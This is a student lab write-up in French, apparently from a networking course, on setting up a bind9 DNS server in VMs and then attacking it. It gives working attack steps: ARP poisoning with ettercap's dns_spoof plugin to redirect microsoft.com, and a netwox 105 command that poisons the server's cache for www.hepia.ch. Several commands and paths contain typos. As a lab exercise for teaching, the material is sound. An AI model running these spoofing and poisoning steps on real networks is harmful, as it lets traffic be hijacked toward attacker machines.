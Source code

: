 # Labo DNS

## A quoi sert un serveur DNS ?

Un serveur DNS (Domain Name Server) sert à traduire le nom de domaine entré par l'utilisateur vers l'adresse ip corespondante.

Serveur DNS IP = 192.168.192.129
Client IP = 192.168.192.133
Attaquant IP = 192.168.192.132

## 1. Configuration DNS

* Installer bind9 sur la vm DNS_Serv 
```
sudo apt install bind9
```

* modifier le fichier **/etc/cache/bind/named.conf.option** :
    - Commenter la ligne *dnssec-validation auto;*
    - Rajouter la ligne *dnssec-enable no;*

* Restart le serveur DNS : 

```
sudo systemctl restart bind9
```

## 2. Configuration Client

* Changer dans les paramètres réseau l'adresse du serveur dns par celle de la vm du serveur DNS.

* restart le network manager :
```
sudo /etc/init.d/networking restart
```

## 3. Configuration machine host VM

choisir l'interface VMnet8

choisir un filtre dans le wireshark 
```
ip.addr==192.168.192.129
```

Après avoir ping hepia.ch on obtient sur le wireshark :
![](wiresharkDNS.png)

## Effectuer une nouvelle fois ce ping, que se passe-t-il ? Pourquoi ?

Il n'effectue pas la requête DNS car le client connait déjà l'addresse ip correspondante au serveur hepia.ch.

## 4. Configurer une zone sur le serveur DNS

modifier le fichier **/etc/bind/named.conf.local**. Ajouter les lignes suivantes :
```
zone "labhepia.ch" {
    type master;
    file "/etc/bind/db.labhepia.ch.zone";
};
```

copier le fichier db.empty :
```
sudo cp db.empty db.labhepia.ch.zone
```

modifier le fichier **db.labhepia.ch.zone**:

```
...

@ IN MS ns.labhepia.ch
@ IN MX 10 mail.labhepia.ch

www IN A ? ; ?
www IN A ? ; Address of mail.labhepia.ch
client IN A ? ; ?
attack IN A ? ; ?
* IN A ? ; ?
```

redémarrer le service bind :
```
sudo systemctl restart bind9
```

modifier le fichier **/etc/hosts** sur la machine DNS Client. Rajoutez à la 3<sup>ème</sup> ligne :

```
1.2.3.4   www.mabanque.ch
```

On essaie maintenant de ping *www.mabanque.ch* et on obtient :
![](wiresharkMaBanque.png)

## 5. Configuration machine Attanquante :

modifier le fichier **/etc/ettercap/etter.dns**. Dans la partie *"microsoft sucks :)"* :

```
microsoft.com A 192.168.192.132
*.microsoft.com A 192.168.192.132
www.microsoft.com PTR 192.168.192.132
```

Start ettercap avec une interface graphique :
```
ettercap -G
```

Dans les onglets :
* sniff->Unified Sniffing->eth0
* hosts->scan for host
* hosts->hosts list->192.168.192.129 et 192.168.192.133
* MITM->ARP Poisonning->Sniff remote Connection->Valider
* Plugins->Manage the plugins->dns_spoof

Vider le cache sur le client :
```
sudo systemd-resolve --flush-caches
```

## Vérifier et montrer que l'attaque fonctionne. Désactiver le spoofing et refaire une requête, que se passe-t-il ? Pourquoi ?

On ne peut toujours pas accéder au site car l'adresse de l'attaquant et toujours dans le cache.

## 6. Poisonning DNS

supprimer le cache du serveur DNS.

```
sudo rmdc flush
```

Poisonning DNS:
```
sudo netwox 105 -h www.hepia.ch -H 192.168.192.132 -a ns.hepia.ch -A 192.168.192.132 --spoofip "raw" --ttl 86400
```

vider le cache sur le client :
```
sudo systemd-resolve --flush-caches
```
## Que se passe-t-il ?

Vider le cache du client est inutile car c'est le cache du DNS qui a été empoisonné 